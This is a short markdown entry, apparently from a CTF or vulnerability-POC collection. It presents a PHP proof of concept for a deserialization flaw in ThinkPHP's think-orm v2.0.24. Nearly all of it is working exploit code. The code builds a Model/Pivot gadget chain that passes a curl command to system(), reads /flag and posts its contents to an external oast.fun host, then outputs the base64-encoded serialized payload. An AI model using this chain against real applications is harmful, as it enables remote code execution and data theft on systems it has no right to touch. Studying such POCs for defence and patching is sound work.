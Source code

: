 ### 反序列化-PHP-010
> thinkphp  (topthink/think-orm =  v2.0.24 ) 反序列化漏洞 POC 
>
> www.zip 获取源码
```php
<?php

namespace think;
abstract class Model {

    private $lazySave = false;
    private $exists = false;
    private $data = [];
    protected $suffix = "";
    protected $name = null;
    protected $connection = "mysql";

    protected $append = [];
    private $relation = [];
    protected $visible = [];
    protected $strict = true;
    private $withAttr = [];


    function __construct($obj){
        if ($obj == null) {
            $this->visible = array("foo"=>array());
            $this->relation = array("foo"=>"curl http://sxielvzhzqayslxhetklcq64byiulay79.oast.fun -d \"$(cat /flag)\"");
            $this->withAttr = array("foo"=>"system");
        }else{
            $this->lazySave = true;
            $this->exists = true;
            $this->data= array("foo"=>"");
            $this->name=$obj;
        }


    }
}






namespace think\model;
class Pivot extends \think\Model{

}

namespace think\model;
echo base64_encode(serialize(new Pivot(new Pivot(null))));

```
